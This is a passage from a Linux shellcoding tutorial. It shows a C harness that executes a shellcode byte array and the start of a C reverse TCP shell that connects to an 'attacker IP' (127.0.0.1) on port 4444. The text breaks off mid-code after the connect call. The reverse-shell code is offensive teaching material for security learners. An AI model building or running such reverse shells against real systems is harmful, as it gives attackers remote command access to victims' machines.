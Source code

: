 \newpage
\subsection{9. linux shellcoding. Reverse TCP shellcode}

﷽

![linux shellcoding](./images/14/2021-10-16_11-42.png){width="80%"}          

In the previous section about shellcoding, we spawned a regular shell. In this section my goal will be to write reverse TCP shellcode.      

### testing shellcode     

When testing shellcode, it is nice to just plop it into a program and let it run. We will use the same code as in the first post (`run.c`):           
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;
}
```

### reverse TCP shell

We will take the C code that starts the reverse TCP shell from one of my [previous](https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html) posts.          
So our base (`shell.c`):
```cpp
/*
shell.c - reverse TCP shell
author: @cocomelonc
demo shell for linux shellcoding example
*/
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

  // attacker IP address
  const char* ip = "127.0.0.1";

  // address struct
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  // socket syscall
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);

  // connect syscall
  connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

```